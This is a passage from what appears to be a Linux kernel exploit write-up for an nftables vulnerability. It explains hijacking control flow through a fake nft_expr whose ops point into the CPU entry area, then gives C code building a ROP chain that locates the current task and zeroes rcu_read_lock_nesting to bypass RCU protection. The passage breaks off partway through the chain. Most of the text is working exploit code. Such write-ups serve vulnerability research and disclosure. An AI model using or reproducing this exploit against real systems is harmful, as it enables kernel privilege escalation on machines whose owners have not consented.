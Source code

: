 ```c
static void expr_call_ops_eval(const struct nft_expr *expr,
                   struct nft_regs *regs,
                   struct nft_pktinfo *pkt)
{
#ifdef CONFIG_RETPOLINE
    unsigned long e = (unsigned long)expr->ops->eval;
#define X(e, fun) \
    do { if ((e) == (unsigned long)(fun)) \
        return fun(expr, regs, pkt); } while (0)

    X(e, nft_payload_eval);
    X(e, nft_cmp_eval);
    X(e, nft_counter_eval);
    X(e, nft_meta_get_eval);
    X(e, nft_lookup_eval);
    X(e, nft_range_eval);
    X(e, nft_immediate_eval);
    X(e, nft_byteorder_eval);
    X(e, nft_dynset_eval);
    X(e, nft_rt_get_eval);
    X(e, nft_bitwise_eval);
#undef  X
#endif /* CONFIG_RETPOLINE */
    expr->ops->eval(expr, regs, pkt);
}
```

`chain->blob_gen_0` is used in `nft_do_chain`, and `expr->ops->eval` is called to evaluate the expression in `expr_call_ops_eval`. We set the ops of the fake expr to the CPU entry area to control the RIP. We allocate the fake blob object larger than 0x2000 to use page allocator.

# Post-RIP

The ROP payload is stored in `chain->blob_gen_0` which is allocated by page allocator.

When `eval()` is called, `RBX` points to `chain->blob_gen_0+0x10`, which is the beginning of the `nft_expr` structure.

```c
void rop_chain(uint64_t* data){
    int i = 0;

    // nft_rule_blob.size > 0
    data[i++] = 0x100;
    // nft_rule_blob.dlen > 0
    data[i++] = 0x100;

    // fake ops addr
    data[i++] = PAYLOAD_LOCATION(1) + offsetof(struct cpu_entry_area_payload, nft_expr_eval);

    // current = find_task_by_vpid(getpid())
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = getpid();
    data[i++] = kbase + FIND_TASK_BY_VPID;

    // current += offsetof(struct task_struct, rcu_read_lock_nesting)
    data[i++] = kbase + POP_RSI_RET;
    data[i++] = RCU_READ_LOCK_NESTING_OFF;
    data[i++] = kbase + ADD_RAX_RSI_RET;

    // current->rcu_read_lock_nesting = 0 (Bypass rcu protected section)
    data[i++] = kbase + POP_RCX_RET;
    data[i++] = 0;
    data[i++] = kbase + MOV_RAX_RCX_RET;
```
